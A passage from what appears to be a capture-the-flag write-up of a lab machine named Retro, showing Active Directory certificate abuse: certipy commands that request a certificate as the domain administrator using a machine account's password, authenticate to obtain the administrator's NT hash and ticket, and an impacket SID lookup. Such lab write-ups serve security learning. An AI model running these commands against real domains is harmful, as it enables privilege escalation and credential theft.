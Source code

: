 So lets just double it and run our Certificate Request again.

```bash
certipy req -u 'BANKING$@retro.vl' -p 'aashwin10!' -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@retro.vl -key-size 4096
```

![image.png](/assets/images/Retro_VL/image%2023.png)

It accepted our key size giving us the Administrator.pfx file.

Now lets just authenticate as the administrator to get its NT hash and TGT.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44 -ns 10.129.234.44 -domain retro.vl
```

![image.png](/assets/images/Retro_VL/image%2024.png)

Having some of the SID mismatch errors while authenticating.

Using impacket’s lookupsid.py to find the correct Administrator SID.

```bash
impacket-lookupsid retro.vl/'BANKING$':'aashwin10!'@dc.retro.vl
```
